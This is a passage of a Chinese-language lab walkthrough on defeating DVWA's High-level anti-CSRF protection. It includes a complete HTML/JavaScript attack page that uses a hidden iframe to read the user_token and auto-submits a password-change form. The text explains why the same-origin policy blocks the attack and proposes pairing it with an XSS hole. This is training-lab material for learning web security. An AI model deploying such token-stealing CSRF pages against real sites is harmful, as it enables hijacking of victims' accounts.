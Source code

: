 要绕过High级别的反CSRF机制，关键是要获取token，要利用受害者的cookie去修改密码的页面获取关键的token。

我们还是想法构造一个页面上传到公网.
我们要构造一个页面然后让这个页面的ifram去访问修改密码的页面,获得token,然后向服务器发送修改密码的请求,

```html
<script type="text/javascript">

    function attack()

  {

   document.getElementsByName('user_token')[0].value=document.getElementById("hack").contentWindow.document.getElementsByName('user_token')[0].value;

  document.getElementById("transfer").submit(); 

  }

</script>

 

<iframe src="http://192.168.153.130/dvwa/vulnerabilities/csrf" id="hack" border="0" style="display:none;">

</iframe>

 

<body onload="attack()">

  <form method="GET" id="transfer" action="http://192.168.153.130/dvwa/vulnerabilities/csrf">

   <input type="hidden" name="password_new" value="password">

    <input type="hidden" name="password_conf" value="password">

   <input type="hidden" name="user_token" value="">

  <input type="hidden" name="Change" value="Change">

   </form>

</body>
```

然而理想与现实的差距是巨大的，这里牵扯到了跨域问题，而现在的浏览器是不允许跨域请求的。这里简单解释下跨域，我们的框架iframe访问的地址是http://192.168.153.130/dvwa/vulnerabilities/csrf，位于服务器192.168.153.130上，而我们的攻击页面位于黑客服务器10.4.253.2上，两者的域名不同，域名B下的所有页面都不允许主动获取域名A下的页面内容，除非域名A下的页面主动发送信息给域名B的页面，所以我们的攻击脚本是不可能取到改密界面中的user_token。

由于跨域是不能实现的，所以我们要将攻击代码注入到目标服务器192.168.153.130中，才有可能完成攻击。下面利用High级别的XSS漏洞协助获取Anti-CSRF token（因为这里的XSS注入有长度限制，不能够注入完整的攻击脚本，所以只获取Anti-CSRF token）。
